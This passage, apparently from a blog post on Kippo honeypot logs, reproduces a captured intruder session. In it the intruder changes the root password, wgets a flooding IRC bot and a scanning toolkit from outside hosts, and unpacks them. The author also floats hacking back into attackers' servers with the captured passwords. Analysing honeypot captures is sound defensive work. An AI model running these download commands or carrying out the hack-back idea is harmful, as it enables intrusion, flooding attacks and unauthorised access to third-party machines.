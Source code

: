     server:/root/.shm.xcgi?F6=1# ./a 88.198
    error while loading shared libraries: libgnome.so.32: cannot open shared object file: No such file or directory

## Third example

Some intruders are friendly enough to change the root password for us. This would actually be an interesting concept to add to Kippo: when you notice a `passwd` command being executed, try to set up a reverse SSH connection to the attacker (probably possible since the attackers often use hacked servers themselves) and login with that password. When the same password is used during each hack attempt, we would probably be able to reclaim the originating server. Two tools are downloaded here. One is a flooding IRC bot, the other is a rehash of the `pscan` tool from above, with some automation shell scripts added (dubbed `gosh` here). It's also interesting to note that most of the hackers try to cover their tracks by removing their downloads.

    server:~# w
     23:35:44 up 14 days,  3:53,  1 user,  load average: 0.08, 0.02, 0.01
    USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
    root     pts/0    82.57.163.232     23:35    0.00s  0.00s  0.00s w

    server:~# passwd
    Enter new UNIX password:
    Retype new UNIX password:
    passwd: password updated successfully

    server:~# cd ..

    server:/# cd var

    server:/var# cd tmp

    server:/var/tmp# ls

    server:/var/tmp# wget http://www.denysa.net/denysa/flood.tgz
    --2011-01-26 23:36:24--  http://www.denysa.net/denysa/flood.tgz
    Connecting to www.denysa.net:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 227324 (221K) [application/x-compressed]
    Saving to: `flood.tgz

    100%[======================================>] 227,324      51K/s  eta 2s

    2011-01-26 23:36:26 (51 KB/s) - `flood.tgz' saved [227324/227324]

    server:/var/tmp# wget http://gblteam.webs.com/gosh.tgz.tar
    --2011-01-26 23:36:44--  http://gblteam.webs.com/gosh.tgz.tar
    Connecting to gblteam.webs.com:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 1642769 (1M) [application/x-tar]
    Saving to: `gosh.tgz.tar

    100%[======================================>] 1,642,769    658K/s  eta 0s

    2011-01-26 23:36:46 (658 KB/s) - `gosh.tgz.tar' saved [1642769/1642769]

    server:/var/tmp# tar zxvf gosh.tgz.tar
    gosh
    gosh/3
    gosh/4
    gosh/common
    gosh/go.sh
    gosh/scam
    gosh/pscan2
    gosh/ss
    gosh/5
    gosh/vuln.txt
    gosh/1
    gosh/mfu.txt
    gosh/pass_file